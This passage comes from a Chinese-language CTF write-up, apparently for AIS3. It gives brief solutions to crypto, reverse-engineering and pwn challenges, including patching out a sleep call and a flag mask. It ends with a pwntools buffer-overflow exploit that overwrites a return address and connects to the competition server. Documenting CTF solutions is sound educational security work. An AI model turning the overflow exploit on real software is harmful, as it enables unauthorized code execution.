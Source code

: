 ```python=
    key = f(key)

print(flag)
```

### SC

一個一個對應，用 excel 逐個字母填，我的眼睛 QQ
對應完成後用工具將 flag 反解出來

## Reverse

### Time Management

將 sleep 的參數 patch 為 0
![](https://i.imgur.com/yTIGE0U.png)

之後發現他會把 flag 給遮掉，於是也將遮掉的 code 也 patch 掉。
![](https://i.imgur.com/073HOwU.png)

之後匯出執行即可拿到 flag

### Calculator

用 dnSpy 打開後閱讀一下 left 及 right 的定義。之後可以看到 flag 們的規則，照著做即可回復 flag。
![](https://i.imgur.com/iQPilcH.png)

## Pwn

### SAAS - Crash

創一個 index 後 edit 它變成一個很大的值之後一直 print 就會壞掉噴出 flag 了，通靈 XD。

![](https://i.imgur.com/gI1LBPC.png)

### BOF2WIN

一個直觀的 BOF 題，沒有金絲雀。

看了一下原始碼及 gdb 後撰寫以下 script get flag。

```python=
from pwn import *

#r = process("./bof2win/share/bof2win")
r = remote("chals1.ais3.org", 12347)
#r = remote("0.0.0.0", 12347)


r.recvline()

payload = "A"*24+p64(0x40121B)
#raw_input()
r.sendline(payload)
#raw_input()
r.interactive()

```
